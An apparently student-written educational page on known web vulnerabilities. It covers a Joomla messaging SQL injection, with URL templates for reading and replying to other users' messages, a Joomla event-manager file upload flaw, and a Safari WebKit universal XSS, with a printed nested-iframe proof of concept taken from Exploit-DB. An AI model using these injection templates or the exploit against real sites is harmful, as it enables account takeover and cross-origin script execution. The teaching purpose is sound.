

Known Vulnerabilities
=====================

*Written by Nathan, Edited by Taylor and Collin.*

Introduction
------------

There are many examples of known vulnerabilities regarding web security. These 
vulnerabilities can be found in a CVE (Common Vulnerabilities and Exposures) 
database. However, when the vulnerability is placed in the database, the 
developer isn't the only person who can make a query. Hackers can find the 
information just as easily, making the vulnerability a race between the 
developer and the hacker. Here are a list of some known vulernabilities in web
security, how to abuse said vulnerability, and what steps should be implemented
to patch the vulnerability.

Joomla!
-------

Joomla! is a content management system that deals with website creation and 
distribution. A variety of sites have been created with Joomla!, including 
Lipton Ice Tea, Lazarex Cancer Foundation, Michael Phelps' Store, and many more
[JOO]_. Known vulnerabilities with the Joomla! application include:

**SQL Injection:**

Joomla MSG (My Personal Messages) is a way in which users are able to 
communicate with one another through a website. An exploit was found that 
allowed for an attacker to log in as another user by appending the default 
message website path with SQL queries, resulting in an attacker being able to 
view other user's messages. Below is an example of how the SQL injection could 
be implemented into a URL to access another person's messages [EDB]_.::

	# View someone else's messages
	http://localhost/[PATH]/index.php?option=com_mymsg&view=msg&filter_box=[Insert_SQL_Here]
	# Reply as someone else
	http://localhost/[PATH]/index.php?option=com_mymsg&layout=edit&reply_id=[Insert_SQL_Here]

**Insecure File Upload:**

The default Joomla Event Manager (JEM) allows for an authenticated user to 
upload HTML and HTM files as an attachment. If an attacker was to upload the 
files containing malicious Javascript coding, a victim would be able to 
download said files. This would put them at risk to whatever hack the attacker 
created. In order to prevent this type of vulnerability, the JEM should 
restrict file uploads to valid files of a certain type.

Apple
-----

Apple is a large, multibillion-dollar company that offers a variety of 
services. One of these services includes Apple WebKit, a web browser engine 
used by OS X applications including Safari. There are several past 
vulnerabilities found with Apple WebKit, including the following:

**Cross Site Scripting**

Cross Site Scripting (or XSS) is a vulnerability that is usually found within 
web applications. An attacker using XSS can inject their script to a normal 
website, which unknowingly passes the malicious script to the user [XSS]_. The 
script language is usually Javascript due to nearly every website using some 
form of it. The script can then read the information that the user's computer 
transmits to the website, including location and cookies.

Apple's WebKit engine (specifically on Safari 10.0.2) is vulnerable to this 
type of attack. The code attacks the FrameLoader::clear function that clears the
user's screen. XSS is then injected into the unload event handler with 
Javascript to execute whatever function the attacker desires. The code looks 
similar to this [EDB]_.::

	function main() {
	    let f = document.body.appendChild(document.createElement("iframe"));
	     
	    let a = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	    a.contentWindow.onunload = () => {
	        let b = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	        b.contentWindow.onunload = () => {
	            f.src = "javascript:''";
	 
	            let c = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	            c.contentWindow.onunload = () => {
	                f.src = "javascript:''";
	 
	                let d = f.contentDocument.appendChild(document.createElement("iframe"));
	                d.contentWindow.onunload = () => {
	                    f.src = "javascript:setTimeout(eval(atob('" + btoa("(" +function () {
	                        alert(document.location);
	                    } + ")") + "')), 0);";
	                };
	            };
	        };
	    };
	 
	    f.src = "https://abc.xyz/";
	}
	 
	main();

Works Cited
-----------
.. [EDB] "Offensive Security’s Exploit Database Archive." <https://www.exploit-db.com/>`_ Exploits Database by Offensive Security. N.p., n.d. Web. 24 Feb. 2017. 
.. [JOO] "Joomla.org." <https://www.joomla.org/>'_ Joomla! N.p., n.d. Web. 24 Feb. 2017.
.. [AWK] "WebKit." <https://webkit.org/>'_ WebKit. N.p., n.d. Web. 24 Feb. 2017.
.. [XSS] "What Is Cross-site Scripting and How Can You Fix It?" <https://www.acunetix.com/websitesecurity/cross-site-scripting/>'_ Acunetix. N.p., n.d. Web. 25 Feb. 2017.